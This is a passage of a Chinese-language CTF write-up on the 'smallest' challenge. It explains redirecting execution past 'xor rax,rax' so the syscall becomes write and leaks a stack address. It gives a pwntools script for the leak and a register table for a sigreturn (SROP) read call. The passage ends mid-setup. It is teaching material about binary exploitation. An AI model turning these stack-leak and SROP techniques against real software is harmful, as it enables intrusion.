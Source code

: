 执行read前:

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598247003949-597480d9-1a46-4976-a90e-ed17cc5751d9.png)

执行后:

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598247041870-e6eb0ca1-fc36-41ee-9822-5a5a34bf2612.png)

可以看到栈顶被覆盖

---

那么在第二次执行read函数调用结束之后的ret依然会返回当前rsp指针指向的位置，即从mov edx, 400h这条指令开始，这样一来就会绕过前面的xor rax,rax指令，避免了rax寄存器被清零。并且rsp指针会继续上移指向start_addr3

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598246832755-d5e6eda5-461a-4863-b32a-530471f5946b.png)'

因为此时的rax寄存器中的值为1，也就是说syscall调用的系统调用号为1，那么就不会调用read函数，而是write函数，整个的系统调用就会变成syscall(1, 0, rsp, 0x400)，也就是write(0, rsp, 0x400)，这将会打印从栈顶开始的0x400字节的内容。**<font style="color:#F5222D;">但是不要忘了，我们部署了三个start_addr，所以还需要从start_addr3的下一位地址进行取值，</font>**我们将取到的新栈顶记做stack_addr

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598248241327-b4786695-ff49-4120-b468-ee96ebf1512a.png)







```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE #源代码syscall处地址
start_addr = 0x00000000004000B0  #源代码xor rax,rax处地址

payload = p64(start_addr) * 3  #部署三个start_addr，完成三次read函数的调用
sh.send(payload)

#覆盖第二个start_addr的最后一个字节变成0x00000000004000B3，
#越过对rax寄存器的清零，还使得rax寄存器值变为1
sh.send('\xb3')  
stack_addr = u64(sh.recv()[8:16]) #程序调用write函数，使用recv模块接收接下要要部署的栈顶地址
log.success('leak stack addr :' + hex(stack_addr))

sh.interactive()
```

### 使用sigreturn对read函数调用的寄存器进行部署
接下来就需要注意了，我们进入构造的阶段。我们需要通过sigreturn的调用来实现对read函数调用寄存器的部署。值得高兴的是pwntools中已经有了调用sigreturn的功能，所以在写EXP的时候可以直接使用。再部署之前我们需要之想好在哪几个寄存器中部署什么值，下面列出来一一讲解

```plain
----------------------------------
| 寄存器和指令 |      存储数据      | 
----------------------------------
|    rax     |  read函数系统调用号 | 
----------------------------------
|    rdi     |         0         | 
----------------------------------
|    rsi     |    stack_addr     | 
----------------------------------
|    rdx     |       0x400       | 
----------------------------------
|    rsp     |    stack_addr     | 
----------------------------------
```